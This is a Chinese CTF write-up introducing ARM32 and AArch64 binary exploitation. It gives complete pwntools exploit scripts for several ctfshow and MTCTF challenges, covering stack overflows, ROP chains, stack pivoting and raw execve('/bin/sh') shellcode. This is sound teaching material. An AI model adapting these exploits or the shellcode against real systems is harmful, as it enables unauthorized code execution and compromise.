# arm pwn 入门-先知社区

> **来源**: https://xz.aliyun.com/news/17446  
> **文章ID**: 17446

---

# arm pwn 入门

arm架构文件在Ubuntu中运行需要通过qemu，qemu的安装很容易搜到。

这里刚学习arm架构的pwn，主要是通过例题学习，了解arm架构的基础知识和打法，记录一下。

## arm32

### 运行及gdb调试

直接运行：

```
qemu-arm -L /usr/arm-linux-gnueabi ./pwn
```

exp中本地运行：（-g 1234 参数是为了启动qemu进行gdb调试）

```
p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "-g", "1234", file_name])
p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", file_name])
```

gdb调试：

需要开启两个终端，第一个用gdb-multiarch -q ./pwn 开启gdb，然后开第二个终端，加-g 1234的参数运行程序或者直接在exp调试时运行exp脚本。

然后在gdb终端输入target remote localhost:1234，连接上qemu的端口就可以开始下断点运行调试了。

### 基础知识

`BL` 指令会跳转到目标地址执行代码（类似于函数调用），\*\*同时将下一条指令的地址（即返回地址）保存到 `LR` 寄存器（Link Register，即 `R14`）\*\*中。

**arm架构中前四个参数是利用r0~r3寄存器进行传递**，在gdb调试到调用函数或者利用ropgadget找gadget时可以直观看到。



图一中第二个指令就是pop出r3和pc两个寄存器，r3就是第四个参数的通用寄存器，pc也可以通过gdb看到就相当于rip寄存器，栈顶第一个参数给到r3，第二个就给到pc，如果是ctfshow函数，就会执行该函数，bl就相当于跳转调用函数，通过图二可以看到四个通用寄存器，图三的三个参数在x86架构中就是rdi，rsi，rdx寄存器，这里通过gdb对比上面寄存器的信息就可以证明arm架构中前四个参数是利用r0~r3寄存器进行传递。

r7寄存器存储系统调用号，r11也叫fp寄存器相当于ebp，r13就是sp相当于esp也就是栈顶，并且不是ret返回而是之直接用pop {PC}，pc寄存器相当于eip寄存器。

### 例题一：ctfshow pwn346 栈溢出到后门



这道题就是栈溢出到后门函数，要注意的是arm架构buf与返回地址之间没有类似于x86一样的rbp指针在这里，所以覆盖数据就是0x18，通过这道题主要学怎么调试了。

```
from pwn import* 
def rl(a):
    p.recvuntil(a)
def s(a):
    p.send(a)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def get_addr():
    return u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
def inter():
    p.interactive()
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__() 
def bug():
    gdbscript = '''
    set architecture arm
    target remote :1234
    '''
    gdb.attach(p, gdbscript=gdbscript, exe='/usr/bin/gdb-multiarch') 
    pause()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')  

context(os='linux',arch='arm',log_level='debug')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf=ELF('./pwn346')
file_name = './pwn346'
debug = 0
if debug:
    p = remote('pwn.challenge.ctf.show',28207)
else:
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "-g", "1234", file_name])


s(b'a'*(0x18)+p32(0x1056C))


inter()

```

### 例题二：ctfshow pwn347 栈溢出rop



这道题就是ret2libc，但是我只在本地打了，远程泄露的地址不变，而且没有给libc。

这个题主要学的就是参数的传递。

0x00010548 : pop {fp, pc}  
0x000103a4 : pop {r3, pc}  
0x00010500 : pop {r4, pc}  
0x000106bc : pop {r4, r5, r6, r7, r8, sb, sl, pc}

Ropgadget只找到这四个gadget，ida中找到了一个

.text:00010660 03 00 A0 E1 MOV R0, R3  
.text:00010664 00 88 BD E8 POP {R11,PC}

因为不能直接控制r0，所以用了pop {r3, pc}，MOV R0, R3这两个gadget来间接控制r0，从而泄露libc地址，

```
payload = (
    b'A' * 0x84 +
    # 泄露 puts@got
    p32(pop_r3) +               # pop {r3, pc}
    p32(elf.got['puts']) +      # r3 = puts@got
    p32(mov_r0_r3) +            # mov r0, r3 ; pop {r11, pc}
    p32(0xdeadbeef) +           # r11 占位
    p32(call_puts) +      # 调用 puts(r0)
    p32(0xdeadbeef) +           # r11 占位
    p32(ctfshow)                # 跳转到 ctfshow
)

```

这里还有一个问题，直接调用puts的plt表时，会对r0数据进行处理，导致程序崩溃，所以用了程序中的 bl puts这样的一个地址

.text:000105C0 86 FF FF EB BL puts  
.text:000105C0  
.text:000105C4 00 00 A0 E1 NOP  
.text:000105C8 00 88 BD E8 POP {R11,PC}

就可以顺利泄露libc了。之后就是相同的链子打system(b'/bin/sh')。

```
from pwn import* 
def rl(a):
    p.recvuntil(a)
def s(a):
    p.send(a)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def get_addr():
    return u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
def inter():
    p.interactive()
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__() 
def bug():
    gdbscript = '''
    set architecture arm
    target remote :1234
    '''
    gdb.attach(p, gdbscript=gdbscript, exe='/usr/bin/gdb-multiarch') 
    pause()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')  

context(os='linux',arch='arm',log_level='debug')
libc=ELF("./libc.so.6")
elf=ELF('./pwn347')
file_name = './pwn347'
debug = 0
if debug:
    p = remote('pwn.challenge.ctf.show',28119)
else:
    #p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "-g", "1234", file_name])
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", file_name])

pop_r3=0x000103a4
mov_r0_r3=0x00010660
ctfshow=0x105fc
call_puts=0x105C0
s(b'a'*0x84+p32(pop_r3)+p32(elf.got['puts'])+p32(mov_r0_r3)+p32(0xdeadbeef)+p32(call_puts)+p32(0xdeadbeef)+p32(ctfshow))

u32(p.recvuntil('\x3f')[-4:])
libc_base=u32(p.recvuntil('\x3f')[-4:])-libc.sym['puts']
li(hex(libc_base))
system,binsh=get_sb()
system=libc_base+0x4182C
s(b'a'*0x84+p32(pop_r3)+p32(binsh)+p32(mov_r0_r3)+p32(0xdeadbeef)+p32(system))


inter()

```

### 例题三：ctfshow pwn348 ret2shellcode



逻辑很简单，就是一个栈溢出，题目描述用shellocde打，通过这道题发现arm32位架构下bss段是可以直接执行shellcode的，目前不清楚是题目原因还是arm架构原因。

思路就是栈迁移到bss段，然后执行shellcode。



看read函数的汇编，通过r11寄存器控制read的读入位置，那么用pop\_r11\_pc这样的gadget就可以控制读入位置并返回到这个地址重新读入。

然后可以看出来最后sp也是被r11控制的，中间r11没有变，所以接下来就是在bss上执行了，通过上次read来控制该执行什么，利用pop\_r11\_pc这个gadget后面加上bss上shellcode放的地址，控制执行的地方，shellcode可以写在payload最后。exp中用的是一个28字节arm32的shellcode。这个shellcode的编写及原理参考这个篇文章。[文章 - 用ARM编写shellcode - 先知社区](https://xz.aliyun.com/news/3730?time__1311=eqUxBDRDgDn0eGNDQ04qOWG8QShWx7I3x&u_atoken=b531edb6af33458bf94d0fdf2276ee31&u_asig=1a0c384b17428958506413477e0031)

```
from pwn import* 
def rl(a):
    p.recvuntil(a)
def s(a):
    p.send(a)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def get_addr():
    return u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
def inter():
    p.interactive()
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__() 
def bug():
    gdbscript = '''
    set architecture arm
    target remote :1234
    '''
    gdb.attach(p, gdbscript=gdbscript, exe='/usr/bin/gdb-multiarch') 
    pause()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')  

context(os='linux',arch='arm',log_level='debug')
context.update(arch='thumb')
libc=ELF("./libc.so.6")
elf=ELF('./pwn348')
file_name = './pwn348'
debug = 0
if debug:
    p = remote('pwn.challenge.ctf.show',28294)
else:
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "-g", "1234", file_name])
    #p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", file_name])

bss=0x21044+0x200
read_addr=0x105A8
pop_r11_pc=0x105D8

s(b'a'*0x24+p32(pop_r11_pc)+p32(bss+0x24)+p32(read_addr))

pause()
shellcode = (
    b"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78"
)

s(b'\x00'*36+p32(pop_r11_pc)+p32(bss+48)*2+shellcode)
print(len(shellcode))
inter()

```

## aarch64

### 基础知识

```
qemu-aarch64 -L /usr/aarch64-linux-gnu/ ./pwn
```

运行与调试与arm32差不多，-L指定的动态链接库需要修改。

寄存器从Rn变成了Xn，其中栈顶是X31(SP)寄存器，栈帧是X29(FP)寄存器，X0 ~ X7用来依次传递参数，X0存放着函数返回值，X8常用来存放系统调用号或一些函数的返回结果，X32是PC寄存器，X30存放着函数的返回地址(aarch64中的RET指令返回X30寄存器中存放的地址)。

### 例题一：pwn349栈溢出到后门





起初看到距离xsp，xbp都是0x10，难道和x86类似吗，有点迷惑，先测了一个0x10没有溢出，



再进去看，加上gdb调试发现0x88溢出。然后就很基础了。

```
from pwn import* 
def rl(a):
    p.recvuntil(a)
def s(a):
    p.send(a)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def get_addr():
    return u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
def inter():
    p.interactive()
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__() 
def bug():
    gdb.attach(p)
    pause()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')  

context(os='linux',arch='aarch64',log_level='debug')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf=ELF('./pwn349')
file_name = './pwn349'
debug = 1
if debug:
    p = remote('pwn.challenge.ctf.show',28303)
else:
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g", "1234", file_name])
    p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", file_name])
sh=0x400744
pause()
s(b'a'*0x88+p64(sh))


inter()

```

### 例题二：ctfshow pwn350 ret2shellcode







本来的思路应该是先写shellcode在bss上，然后通过栈溢出执行mprotect修改bss权限，再跳转到bss的shellcode上从而getshell。

但是



这里执行完栈溢出跳转到mprotect之后



又跳转到了mprotect，但是我payload后面写的是bss地址，而且gdb调试看到SP寄存器里就是bss地址，并且这次执行的mprotect报错了



这个地址还是mprotect的got表。这里莫名奇妙的没有搞清楚。


但是我直接跳转在bss时发现，这道题和上面arm32的的shellcode都可以直接在bss上执行，不知道是架构原因还是题的原因。

```
from pwn import* 
def rl(a):
    p.recvuntil(a)
def s(a):
    p.send(a)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def get_addr():
    return u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
def inter():
    p.interactive()
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__() 
def bug():
    gdb.attach(p)
    pause()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')  

context(os='linux',arch='aarch64',log_level='debug')
#libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf=ELF('./pwn350')
file_name = './pwn350'
debug = 1
if debug:
    p = remote('pwn.challenge.ctf.show',28193)
else:
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g", "1234", file_name])
    p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", file_name])
mprotect=0x4007c8
bss=0x411068
shellcode = asm(shellcraft.aarch64.sh())
s(shellcode)
pause()
s(b'a'*0x48+p64(bss))


inter()

```

### 例题三：[MTCTF 2022]aarch64\_ret2libc







没有直接控制x0的gadget，所以通过leak函数泄露puts函数地址，但是aarch64架构下libc地址中间有\x00会被截断。



所以要加上0x5500000000偏移得到libc地址。

然后在libc文件中找ldr x0，sp相关的gadget，找一个比较简单的。

```
#0x0000000000063e5c : ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
```

之后再通过调试布置一下就可以了。

```
from pwn import* 
def rl(a):
    p.recvuntil(a)
def s(a):
    p.send(a)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def get_addr():
    return u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
def inter():
    p.interactive()
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__() 
def bug():
    gdb.attach(p)
    pause()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')  

context(os='linux',arch='aarch64',log_level='debug')
libc=ELF("./libc.so.6")
elf=ELF('./pwn')
file_name = './pwn'
debug = 1
if debug:
    p = remote('node4.anna.nssctf.cn',28058)
else:
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g", "1234", file_name])
    p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", file_name])

rl(b'>')
s(str(1))
rl(b'sensible>>')
s(p64(elf.got['puts']))
libc_base=u64(p.recv(3).ljust(8, b'\x00'))
libc_base=u64(p.recv(3).ljust(8, b'\x00'))-libc.sym['puts']+0x4000000000
#libc_base=u64(p.recv(3).ljust(8, b'\x00'))-libc.sym['puts']+0x5500000000
li(hex(libc_base))

system,binsh=get_sb()
#0x0000000000063e5c : ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
gadget=0x0000000000063e5c+libc_base
li(hex(gadget))
li(hex(system))
li(hex(binsh))
rl(b'>')
s(str(2))
rl(b'>')
payload=b'a'*0x88+p64(gadget)+b'a'*0x18+p64(system)+p64(0)+p64(binsh)
pause()
sl(payload)

inter()

```

## 参考文章：

[[原创] CTF 中 ARM & AArch64 架构下的 Pwn-Pwn-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-272332.htm#msg_header_h2_1)

[异构pwn运行与调试 | starrysky](https://starrysky1004.github.io/2025/02/10/yi-gou-pwn-yun-xing-yu-diao-shi/yi-gou-pwn-yun-xing-yu-diao-shi/#toc-heading-3)
